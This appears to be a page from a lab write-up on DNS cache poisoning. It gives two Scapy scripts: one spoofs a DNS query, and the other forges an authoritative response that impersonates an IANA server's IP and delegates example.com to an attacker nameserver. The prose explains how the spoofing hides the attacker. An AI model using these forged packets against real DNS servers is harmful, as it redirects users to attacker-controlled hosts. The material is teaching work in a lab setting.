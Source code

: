\documentclass[12pt,reqno]{amsart}
\newcommand{\code}[1]{\texttt{#1}}
\begin{document}
\begin{figure}[h]
  \begin{lstlisting}[style=PythonStyle, firstnumber=1] 
from scapy.all import * 

# Construct the DNS header and payload
qname = 'twysw.example.com'
Qdsec = DNSQR(qname=qname)
dns = DNS(id=0xAAAA, qr=0, qdcount=1, ancount=0, nscount=0, arcount=0, qd=Qdsec)

# Construct the IP, UDP headers, and the entire packet 
ip = IP(dst='10.9.0.53', src='1.1.2.2')
udp = UDP(dport=53, sport=33333, chksum=0) 
request = ip/udp/dns

# Save the packet to a file in binary
with open('ip_req.bin', 'wb') as f:
  f.write(bytes(request))
\end{lstlisting}
  \caption{DNS request packet generator \code{request\_gen.py}.}
  \label{lst:dnsreq}
\end{figure}

In listing \ref{lst:dnsreq} we see the Scapy code for generating DNS request packets. \code{qname} is just a fixed length random name prepended to the target domain name. The fact that is fixed is important, it will enable us to change that portion of the binary using \code{memcpy} from within the C code. The destination IP is the local DNS server, which listens to port 53 as per the DNS standard. The source IP is not important, because we just want to initiate a DNS request at the server to the world, to create our attack window. In fact, it is better if we do not use the actual attacker source IP, otherwise that would be giving our location. The source port is 33333, as is the configured UDP port for the machine.


\begin{figure}[h]
  \begin{lstlisting}[style=PythonStyle, firstnumber=1]
from scapy.all import *  

# Construct the DNS header and payload
name = 'twysw.example.com'
domain = 'example.com'
ns = 'ns.attacker32.com'
Qdsec = DNSQR(qname=name)
Anssec = DNSRR(rrname=name, type='A', rdata='1.2.3.4', ttl=259200) # 1.2.3.4 is attacker desired IP
NSsec = DNSRR(rrname=domain, type='NS', rdata=ns, ttl=259200)
dns = DNS(id=0xAAAA, aa=1, rd=1, qr=1, 
  qdcount=1, ancount=1, nscount=1, arcount=0,
  qd=Qdsec, an=Anssec, ns=NSsec)

# Construct the IP, UDP headers, and the entire packet 
# source can be either:
# - 199.43.135.53 (a.iana-servers.net)
# - 199.43.133.53 (b.iana-servers.net) 
udp = UDP(dport=33333, sport=53, chksum=0) 
ip = IP(dst='10.9.0.53', src='199.43.133.53') 
response = ip/udp/dns

# Save the packet to a file in binary
with open('ip_res.bin', 'wb') as f:
  f.write(bytes(response))
\end{lstlisting}
  \caption{DNS response packet generator \code{response\_gen.py}.}
  \label{lst:dnsres}
\end{figure}
\end{document}
